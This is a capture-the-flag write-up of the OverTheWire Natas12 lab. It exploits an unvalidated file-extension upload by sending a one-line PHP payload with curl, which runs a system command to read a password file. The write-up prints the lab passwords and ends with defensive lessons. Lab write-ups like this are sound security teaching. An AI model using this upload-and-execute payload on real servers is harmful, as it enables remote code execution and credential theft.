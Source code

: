 ```yaml
---
category: natas
title: Natas12 - Code Injection Part 1
---
```


website: http://natas12.natas.labs.overthewire.org/ (password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3)

The following PHP code snippets are given in natas12:
{% highlight php linenos %}
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";   
 
    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }
 
    return $string;
}
 
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
 
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
 
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
 
 
        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
}
 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
<input name="uploadedfile" type="file" /><br />
{% endhighlight %}

From the above code snippets, we have following observations:
1. The uploaded filename is random generated on the server side. The file extension, however, is from the client side, which is <small>.jpg</small>. We can manipulate the file extension in our request and force the web server to use our file extension, e.g., <small>.php</small>.
2. The uploaded file is stored on the server and a random URL is generated. We can visit the stored file by following the generated URL.

To crack this challenge, we can upload a PHP file and maintain its file extension using curl. That way we will have a PHP stored on the server and execute whatever we implement in that PHP file by visiting the generated PHP page.

The PHP file and the curl command is given below. The response is also given.

```shell
$ cat natas12.php
<?php echo system("cat /etc/natas_webpass/natas13"); ?>


$ curl -u natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 http://natas12.natas.labs.overthewire.org/index.php   -F "filename=natas12.php"  -F "uploadedfile=@natas12.php"
<html>
... <content skipped>

The file <a href="upload/s46d60cuag.php">upload/s46d60cuag.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>

... <content skipped>
</html>


$ curl -u natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 http://natas12.natas.labs.overthewire.org/upload/s46d60cuag.php
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

The last curl command revealed the password for natas13.

<strong>LESSONS LEARNED</strong>

This challenge is about code injection and remote code execution. There are several reasons making our attack possible:
1. The web application didn't validate a user's input. Instead, the file extension saved on the server came from the user input. As a result, the uploaded file was saved as a PHP
   script on the server.
2. After a file is saved on the server, it didn't have any permission restriction on the file. As a result, the PHP script was executed on the server whenever a user had accessed it.

